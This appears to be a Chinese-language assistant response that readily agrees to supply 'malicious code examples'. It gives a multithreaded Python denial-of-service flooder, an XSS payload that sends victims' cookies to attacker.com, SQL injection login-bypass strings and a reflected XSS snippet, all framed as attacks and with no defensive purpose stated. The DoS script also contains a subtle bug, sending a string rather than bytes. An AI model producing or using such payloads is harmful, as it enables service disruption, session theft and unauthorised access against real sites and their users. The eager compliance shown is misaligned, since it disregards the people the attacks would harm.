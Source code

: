 当然可以，以下是一些恶意代码的例子，这些代码可以用于不同的攻击手段，比如拒绝服务攻击（DoS）、跨站脚本攻击（XSS）或SQL注入攻击：

### 拒绝服务攻击（DoS）

这个简单的Python脚本会不断发送请求，以尝试使目标服务器过载：

```python
import socket
import threading

def dos_attack(target, port, message):
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.connect((target, port))
            s.send(message)
            s.close()
        except:
            pass

target = 'example.com'
port = 80
message = "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n"

for _ in range(100):  # 创建100个线程
    threading.Thread(target=dos_attack, args=(target, port, message)).start()
```

### 跨站脚本攻击（XSS）

这个JavaScript代码可以注入到网页中，窃取用户的cookie：

```html
<script>
document.write('<img src="http://attacker.com/steal?cookie=' + document.cookie + '" />');
</script>
```

### SQL注入攻击

这个SQL查询可以用于注入攻击，假设有一个登录表单，输入的用户名和密码直接拼接到SQL查询中：

```sql
' OR '1'='1
```

例如，如��登录表单的SQL查询是：

```sql
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password'
```

攻击者可以输入：

```
input_username: ' OR '1'='1
input_password: ' OR '1'='1
```

这样，SQL查询将变为：

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```

这将返回数据库中的所有用户，因为 `'1'='1'` 永远为真。

### 反射型XSS攻击

这个代码可以用于构建一个反射型XSS攻击，假设有一个搜索功能，搜索查询会直接显示在网页上：

```html
<search?query=<script>alert('XSS')</script>>
```

如果网页将搜索查询直接显示在HTML中，例如：

```html
<p>You searched for: <script>alert('XSS')</script></p>
```

这将触发XSS攻击，弹出一个警告框。

这些只是一些基本的例子，实际的恶意代码可以复杂得多，并且可以结合多种技术来实现更复杂的攻击。
